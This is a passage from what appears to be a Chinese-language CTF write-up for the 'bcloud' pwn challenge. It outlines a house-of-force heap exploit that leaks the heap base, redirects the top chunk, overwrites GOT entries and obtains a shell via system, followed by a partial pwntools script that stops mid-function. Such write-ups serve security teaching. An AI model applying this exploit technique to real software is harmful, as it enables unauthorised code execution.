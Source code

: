 ### 利用

1. 利用初始化名字處的漏洞泄漏堆的基地址。。
2. 利用 house of force 將 top chunk 分配至全局的 0x0804B0A0 的 &notesize-8 處，當再次申請內存時，便返回notesize地址處的內存，從而我們就可以控制所有note的大小以及對應的地址了。
3. 修改前三個 note 的大小爲16，並修改其指針爲 free@got，atoi@got，atoi@got
4. 將 free@got 修改爲 puts@plt。
5. 泄漏 atoi 地址。
6. 再次修改另外一個 atoi got 項爲 system 地址，從而拿到shell。

具體腳本如下

```python
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
context.binary = "./bcloud"
bcloud = ELF("./bcloud")
if args['REMOTE']:
    p = remote('127.0.0.1', 7777)
else:
    p = process("./bcloud")
log.info('PID: ' + str(proc.pidof(p)[0]))
libc = ELF('./libc.so.6')


def offset_bin_main_arena(idx):
    word_bytes = context.word_size / 8
    offset = 4  # lock
    offset += 4  # flags
    offset += word_bytes * 10  # offset fastbin
    offset += word_bytes * 2  # top,last_remainder
    offset += idx * 2 * word_bytes  # idx
    offset -= word_bytes * 2  # bin overlap
    return offset


def exp():
    # leak heap base
    p.sendafter('Input your name:\n', 'a' * 64)
    p.recvuntil('Hey ' + 'a' * 64)
    # sub name's chunk' s header
    heap_base = u32(p.recv(4)) - 8
    log.success('heap_base: ' + hex(heap_base))
    p.sendafter('Org:\n', 'a' * 64)
    p.sendlineafter('Host:\n', p32(0xffffffff))
    # name,org,host, for each is (0x40+8)
    topchunk_addr = heap_base + (0x40 + 8) * 3

    # make topchunk point to 0x0804B0A0-8
    p.sendlineafter('option--->>', '1')
    notesize_addr = 0x0804B0A0
    notelist_addr = 0x0804B120
    targetaddr = notesize_addr - 8
    offset_target_top = targetaddr - topchunk_addr
    # 4 for size_t, 7 for malloc_allign
    malloc_size = offset_target_top - 4 - 7
    # plus 4 because malloc(v2 + 4);
    p.sendlineafter('Input the length of the note content:\n',
                    str(malloc_size - 4))
    # most likely malloc_size-4<0...
    if malloc_size - 4 > 0:
        p.sendlineafter('Input the content:\n', '')
```